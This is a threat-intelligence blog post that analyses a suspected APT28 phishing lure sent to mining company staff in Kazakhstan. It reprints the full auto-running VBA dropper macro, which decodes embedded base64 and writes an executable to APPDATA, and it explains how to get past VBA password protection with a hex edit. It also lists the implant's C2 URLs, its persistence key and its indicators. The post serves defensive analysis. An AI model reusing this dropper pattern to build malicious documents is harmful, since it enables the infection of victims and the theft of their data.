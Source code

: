 ```yaml
---
layout: post
title:  "10/24/2019 - APT28: Targeted attacks against mining corporations in Kazakhstan"
date:   2019-10-24 00:00:00 -0700
categories: tech
author: MELTX0R
---
```

<center><img src="{{site.baseurl}}/assets/images/apt28Banner.jpg" style="max-width:100%;max-height:100%;"></center>

&nbsp;

## Summary

[APT28](https://attack.mitre.org/groups/G0007/) (also commonly known as FancyBear, Sednit, Sofacy, STRONTIUM, and more) is a threat group that has been attributed to Russia's Main Intelligence Directorate of the Russian General Staff by a July 2018 U.S. Department of Justice indictment. The group has been regarded as being active since at least 2004, and is espionage motivated. It's targets have included the private sector, military, and governments across the world. In this post, I will review a campaign that I believe to have been conducted by APT28.

&nbsp;

## Analysis


While performing research, I came across an interesting document titled *"gorodpavlodar.doc"*. This document was an attachment within an equally as interesting email - this email was sent to multiple individuals who, as far as my research indicates, work for a large mining corporation with operations located in Kazakhstan. The email purports to be sent from the "OFFICIAL RESOURCE OF THE CITY OF PAVLODAR", but is actually sent by the address *"pavlodar.news@bk.ru"*. Pavlodar is a city in northeastern Kazakhstan and the capital of the Pavlodar Region. The original email and translation are listed below, which prompts the recipient of the email to review the attached document.

&nbsp;


*ORIGINAL (RUSSIAN):*
{% highlight text %}

From: ОФИЦИАЛЬНЫЙ РЕСУРС ГОРОДА ПАВЛОДАР [pavlodar.news@bk.ru]
Subject: ГРАФИК ПОДКЛЮЧЕНИЯ ВАШЕГО ЖИЛОГО ДОМА К ГОРЯЧЕМУ ВОДОСНАБЖЕНИЮ

На сегодняшний день без горячего водоснабжения остаются 240 многоэтажных жилых домов,

передаёт корреспондент pavlodarnews.kz.

С 13 по 19 мая ТОО «Павлодарские тепловые сети» проводило гидравлические испытания на

инженерных сетях теплоснабжения в северной части города. Было выявлено 84 повреждения, в

связи с чем на сегодняшний день без ГВС остаются 240 многоэтажных жилых домов.

С графиком подключения жилых домов к горячему водоснабжению вы можете ознакомится во

вложении, прикрепленному к письму.

________________________________

ОФИЦИАЛЬНЫЙ ИНТЕРНЕТ-РЕСУРС АКИМАТА ГОРОДА ПАВЛОДАР
{% endhighlight %}


&nbsp;


*TRANSLATION:*
{% highlight text %}
From: OFFICIAL RESOURCE OF PAVLODAR CITY [pavlodar.news@bk.ru]
Subject: SCHEDULE OF CONNECTING YOUR RESIDENTIAL HOUSE TO HOT WATER SUPPLY

To date, 240 multi-storey residential buildings remain without hot water,

reports correspondent pavlodarnews.kz.

From May 13 to 19, Pavlodar Heating Networks LLP conducted hydraulic tests on

heat supply engineering networks in the northern part of the city. 84 injuries were identified, in

In connection with this, 240 multi-storey residential buildings remain without hot water supply.

You can familiarize yourself with the schedule for connecting residential buildings to hot water in

attachment attached to the letter.

________________________________

OFFICIAL INTERNET RESOURCE OF AKIMAT CITY PAVLODAR
{% endhighlight %}



&nbsp;



The attached document also contained text written in Russian, which translated roughly to *"Schedule of connecting your residential house to hot water supply"* and purported to be from the *"Official Internet Resource of Akimat City Pavlodar"*. The documented appeared to be a form for the recipients to fill out with their address, date of water elimination, and reason for lack of hot water. It also prompts the recipient to enable Editing/Content to view the "protected" document.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_DOC_LURE_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected APT28 Lure "gorodpavlodar.doc"</span>

&nbsp;


Opening the Visual Basic console via the developer tab in Word reveals a password protected project that would be run if content were enabled. To bypass this password restriction, I opened the document within a Hex editor and searched for the string "DPB=" which contains the VBA password, and changed it to "DP*x*=". Opening the project following this causes Word to throw multiple errors regarding the invalid key (DPx), but allows me to bypass the password restriction. This allows me to view the contents of the project, displayed below, which looks to be a UserForm containing quite a lot of data in two of the input boxes, in addition to some labels.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_VBAPROJECT_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected APT28 Lure VBA Project</span>

&nbsp;


If I extract the embedded macro, I can see that it essentially does two things - create two files (*graphic.doc* and *libssl.exe*) from the code embedded within the VBA project, and drops those files in the *"C:\Users\\[username]\AppData\Roaming\"* directory.


&nbsp;


{% highlight visualbasic %}
Private Sub Document_Open()
On Error Resume Next
Dim ds As String: ds = Environ("APPDATA") & "\graphic.doc"
Dim dd As String: dd = Environ("APPDATA") & tyihkcjfghkvb.dvxdcxxv.Caption & tyihkcjfghkvb.Label1.Caption & tyihkcjfghkvb.Label2.Caption
vbnbnm dd, drgvfdhre(tyihkcjfghkvb.dxvgfchftbxfh.Value)
vbnbnm ds, drgvfdhre(tyihkcjfghkvb.Text.Value)
Set qw = CreateObject("Word.Application")
qw.Visible = True
Set ww = qw.Documents.Open(ds)
Application.Quit SaveChanges:=wdDoNotSaveChanges
End Sub

Private Function drgvfdhre(tyruyt)
  Dim fghfhggjj, asddf
  Set fghfhggjj = CreateObject("Microsoft.XMLDOM")
  Set asddf = fghfhggjj.createElement("tmp")
  asddf.dataType = "bin.base64"
  asddf.Text = tyruyt
  drgvfdhre = asddf.nodeTypedValue
End Function

Private Sub vbnbnm(tgbyh, edcrf)
  Dim qsxx
  Set qsxx = CreateObject("ADODB.Stream")
  qsxx.Type = 1
  qsxx.Open
  qsxx.Write edcrf
  qsxx.SaveToFile tgbyh, 2
End Sub
{% endhighlight %}
<span style="font-size:small;"> Shown above: Macro within gorodpavlodar.doc  </span>

&nbsp;


Following execution of the macro, the original document is deleted and the secondary document *"graphic.doc"* is opened. This document appears to be a "completed" version of the form contained within the original document, and also contains an embedded macro that executes the aforementioned executable *"libssl.exe"*.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_DOC_GRAPHICDOC_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: graphic.doc </span>


&nbsp;


Following execution of *"libssl.exe"*, it will modify the registry to maintain persistence *(HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run)*. It will then initiate Command & Control communications to two hard-coded URL's via HTTP POST requests - *www.gorodpavlodar.kz/modules/Contact/Includes/1c.php* and *www.gorodpavlodar.kz/modules/Contact/Includes/2c.php*, along with a hard-coded User-Agent string *"Mozilla/5.0 (Windows NT 10.0; Win64; x64)"*. The information POST'd includes URL encoded host information - such as a unique ID, drive information, hostname, OS, username, bios, date, process listing, and more. In the past, these POST requests would receive binary data in the server responses, but they are now being met with 404 HTTP responses.


&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_ZEBROCY_C2PCAP_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected Zebrocy Implant C2 network capture</span>

&nbsp;


While I will leave the in-depth malware analysis to those more adept, the observed activity related to the binary up to this point is very reminiscent of APT28's "Zebrocy" implant. Furthermore, static analysis of the binary reveals numerous similarities to other documented Zebrocy samples - particularly the one documented [here](https://www.vkremez.com/2019/01/lets-learn-overanalyzing-one-of-latest.html) by *Vitali Kremez*. While this isn't conclusive evidence that APT28 is responsible for this sample, the similarities between it and other confirmed Zebrocy implants, in addition to the fact that Kazakhstan has historically been targeted by APT28, is quite suspect. Regardless, it was an interesting sample to review and gives insight into potential economic espionage activities.


&nbsp;

## Indicators

|Indicator|	Type	|Description|
|27e9247d28598207794424eeb5ea4b1b|MD5|libssl.exe - Suspected Zebrocy Implant|
|a863c2944581bc734619bf8d6ab1aef8|MD5|gorodpavlodar.doc - Suspected Zebrocy dropper document|
|57c2b46c7f2ad9aba80e4b6248f9367a|MD5|graphic.doc|
|/modules/Contact/Includes/1c.php|URI|Suspected Zebrocy Implant C2 URI Pattern|
|/modules/Contact/Includes/2c.php|URI|Suspected Zebrocy Implant C2 URI Pattern|
|pavlodar.news@bk.ru|Email Address | Email Address used in suspected APT28 campaign|




&nbsp;

## References/Further Reading

1. https://www.vkremez.com/2019/01/lets-learn-overanalyzing-one-of-latest.html
2. https://attack.mitre.org/groups/G0007/
